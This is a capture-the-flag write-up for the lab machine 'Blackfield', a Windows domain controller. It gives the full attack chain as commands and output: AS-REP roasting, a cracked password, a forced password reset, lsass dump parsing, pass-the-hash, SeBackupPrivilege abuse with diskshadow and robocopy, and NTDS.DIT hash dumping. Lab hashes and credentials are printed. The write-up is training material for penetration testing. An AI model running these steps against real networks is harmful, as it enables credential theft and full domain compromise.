Blackfield is a windows AD machine that showcases a creative way to enumerate by exposing directories in SMB Share anonymous login as usernames. These usernames can then be used to find AS-REP Roastable accounts. After cracking the hash of the support user via AS-REP, it becomes possible to reset the password of the Audit user. The SMB Share allows the Audit user to read the forensics share which contains a lsass dump containing svc_backup credentials. With svc_backup you are able to authenticate into winRM and discover the SeBackupPrivilege, which will be used to dump a shadow copy of NTDS.DIT and SYSTEM hive registry to get a full-domain compromise.

nmap -sC -sV 10.129.9.180
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-20 12:54 +08
Nmap scan report for 10.129.9.180
Host is up (0.14s latency).
Not shown: 992 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-12-20 11:54:19Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-12-20T11:54:32
|_  start_date: N/A
 
```

We see that this is an AD DC machine with kerberos open.

Adding to /etc/hosts:


Searching for SMB Shares as anonymous:
```
nxc smb 10.129.9.180  --shares -u 'Anonymous' -p ''
```

Able to authenticate.



Downloading all files in the SMB recursively:
```
smbclient -N //10.129.9.180/profiles$ 
smb: \> recurse on
smb: \> prompt off
smb: \> mget *

```


After downloading, I noticed that these were all empty directories with seemingly a name attached to it. It's possible that we could use these names to check for as rep roasting. 


After checking RPC and finding no leads, this was my next step.

I used awk to get all the users in the directory into a txt file.



**Checking for AS-REP roasting**

I ran this command to enumerate all valid users and crackable hashes. 
```
GetNPUsers.py blackfield.local/ -dc-ip $target -usersfile users.txt  -outputfile asrep -hashes LMHASH:NTHASH

```
Valid users:
audit2020
support  (PRE-AUTH disabled)
svc_backup

We got the support hash.

Cracking on hashcat


We finally get a valid credential.
```
support:#00^BlackKnight
```

Went through SMB shares with support


Nothing of significance was found.

Running bloodhound-python scan 

```
└─$ sudo bloodhound-python --dns-tcp -ns $target -d blackfield.local -u 'support' -p '#00^BlackKnight' -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Testing resolved hostname connectivity dead:beef::f8b9:ee24:8c83:3fdc
INFO: Trying LDAP connection to dead:beef::f8b9:ee24:8c83:3fdc
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Testing resolved hostname connectivity dead:beef::f8b9:ee24:8c83:3fdc
INFO: Trying LDAP connection to dead:beef::f8b9:ee24:8c83:3fdc
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: DC01.BLACKFIELD.local
WARNING: Failed to get service ticket for DC01.BLACKFIELD.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Done in 00M 37S

```


Looking at bloodhound,


We see that support is able to force change AUDIT2020's password.
Referring to Bloodhound's linux abuse section, I proceeded to make the changes.
```
net rpc password "audit2020" "newP@ssword2022" -U "blackfield"/"support"%"#00^BlackKnight" -S $target

```

Successfully managed to change the password of audit2020, and now I am authenticated into the SMB share. 




Noticed I could now read the forensic share, taking a look. 


In the memory analysis, I saw a lsass.zip. This could be potential credentials being dumped! 


Searched online, I can use pypykatz to analyse the lsass dmp file

```
unzip lsass.zip
pypykatz lsa minidump lsass.DMP > output.txt

```


Found svc_backup's NTLM hash.


Tried cracking svc_backup's hash via rockyou.txt, was unable to do so. However, I am able to access winrm via pass-the-hash.



Running whoami, I found SeBackupPrivilege, which is a known priv-esc token!



Proceeded to execute this commands, which dumps the SAM and SYSTEM hives into a temp folder
```
cd c:\

mkdir Temp

reg save hklm\sam c:\Temp\sam

reg save hklm\system c:\Temp\system
```



A quick local secretsdump command with impacket, we are able to get the NTLM hash of local admin in the domain controller.
```
sudo impacket-secretsdump -sam sam -system system -hashes LMHASH:NTHASH LOCAL
impacket v0.14.0.dev0+20251120.95652.9c2d8b61 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Tried logging in with the NTHash of local admin, but was unable to do so.


**Retrieving NTDS.DIT**

HackingArticle provides a comprehensive guide on how we can abuse this SeBackupPrivilege vulnerability : https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/

Using this as a reference,
```
nano helo.dsh                                             
cat helo.dsh                  
set context persistent nowriters
add volume c: alias helo
create
expose %helo% z:

unix2dos helo.dsh

```
I created a .dsh file, which will allow us to copy NTDS.DIT for us to dump the domain admin hash. 

Back in svc_backup - I uploaded helo.dsh
```
diskshadow /s helo.dsh

robocopy /b z:\windows\ntds . ntds.dit

```


Successfully downloaded ntds.dit


This time, I'll dump with NTDS.
```
sudo impacket-secretsdump -ntds ntds.dit -system system -hashes LMHASH:NTHASH LOCAL

```




